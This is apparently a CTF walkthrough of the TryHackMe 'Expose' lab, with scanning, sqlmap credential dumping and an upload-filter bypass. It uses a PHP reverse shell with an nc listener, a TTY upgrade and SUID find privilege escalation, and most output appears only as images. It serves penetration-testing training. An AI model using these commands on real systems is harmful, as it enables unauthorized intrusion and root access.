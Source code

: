 # Expose

Room Link: [https://tryhackme.com/room/expose](https://tryhackme.com/room/expose)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (363).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (364).png" alt=""><figcaption></figcaption></figure>

### TCP/1337 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:1337 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (365).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (366).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (367).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (368).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sqlmap -r request.txt --dbms=mysql --dump
```

<figure><img src="../../.gitbook/assets/image (369).png" alt=""><figcaption></figcaption></figure>



```
+--------------------------------------+--------------------------------------+--------------------------------------+--------------------------------------+
| id                                   | email                                | created                              | password                             |
+--------------------------------------+--------------------------------------+--------------------------------------+--------------------------------------+
| 2023-02-21 09:05:46                  | 2023-02-21 09:05:46                  | 2023-02-21 09:05:46                  | 2023-02-21 09:05:46                  |
| hacker@root.thm                      | hacker@root.thm                      | hacker@root.thm                      | hacker@root.thm                      |
| 1                                    | 1                                    | 1                                    | 1                                    |
| VeryDifficultPassword!!#@#@!#!@#1231 | VeryDifficultPassword!!#@#@!#!@#1231 | VeryDifficultPassword!!#@#@!#!@#1231 | VeryDifficultPassword!!#@#@!#!@#1231 |
+--------------------------------------+--------------------------------------+--------------------------------------+--------------------------------------+

```

There are two URLs here, the second one needs a username which we don't have so we'll start with the first one.

<figure><img src="../../.gitbook/assets/image (371).png" alt=""><figcaption></figcaption></figure>

```
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929 (easytohack)       |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
+----+------------------------------+-----------------------------------------------------+

```

**Brower - /file1010111/index.php** &#x20;

```
Username: hacker@root.thm
Password: VeryDifficultPassword!!#@#@!#!@#1231
```

<figure><img src="../../.gitbook/assets/image (370).png" alt=""><figcaption></figcaption></figure>

**Browser**

```
Password: easytohack
```

<figure><img src="../../.gitbook/assets/image (372).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (373).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (374).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (376).png" alt=""><figcaption></figcaption></figure>

**Browser - /upload-cv00101011/index.php**&#x20;

```
Password: zeamkish
```

<figure><img src="../../.gitbook/assets/image (377).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (378).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cd php-reverse-shell/
cp php-reverse-shell.php php-reverse-shell.php#.png
nc -lvnp 1337 
```

<figure><img src="../../.gitbook/assets/image (379).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (380).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (382).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (381).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (383).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (384).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (385).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh zeamkish@$VICTIM
Password: easytohack@123
```

## Privilege Escalation

**Victim**

```
find / -perm -4000 2>/dev/null
find . -exec /bin/sh -p \; -quit
```

<figure><img src="../../.gitbook/assets/image (386).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (387).png" alt=""><figcaption></figcaption></figure>



















